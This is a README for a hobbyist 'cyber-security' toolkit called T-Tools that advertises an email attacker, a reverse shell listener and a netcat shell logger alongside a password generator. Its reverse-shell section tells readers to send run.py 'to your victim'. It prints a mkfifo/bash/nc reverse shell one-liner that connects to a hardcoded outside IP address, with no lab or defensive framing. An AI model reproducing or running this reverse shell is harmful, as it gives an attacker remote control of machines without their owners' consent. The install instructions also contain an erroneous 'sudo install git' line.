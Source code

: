 # T-Tools-advanced--cyber-security


# What is T-Tools

T-Tools is an advanced cyber-security tools set.


# What does it includes

What does it include for cyber-security

An email attacker
A web scrapper
An advanced  reverse shell listener
An advanced netcat shell logger

What does it include for normal work

It includes 

A random password generator
simple phone number locator

# Installation

 this works for almost every operating system
 
 In your terminal type these commands
 
    $ sudo install git
    $ git clone https://github.com/Hirukshacoder/T-Tools-advanced--cyber-security/
    $ cd T-Tools-advanced--cyber-security
    $ pip install -r requirements.txt
    $ python3 main.py
           
# Reverse shells 
 
To use the listener change the ip in listener.py and run it to start listening


Then send the run.py file to your victim.


    kali@attacker ~ $ python3 listen.py
    kali@victim ~ $ mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 172.104.191.185 9999 >/tmp/f  
           
made by Treveen

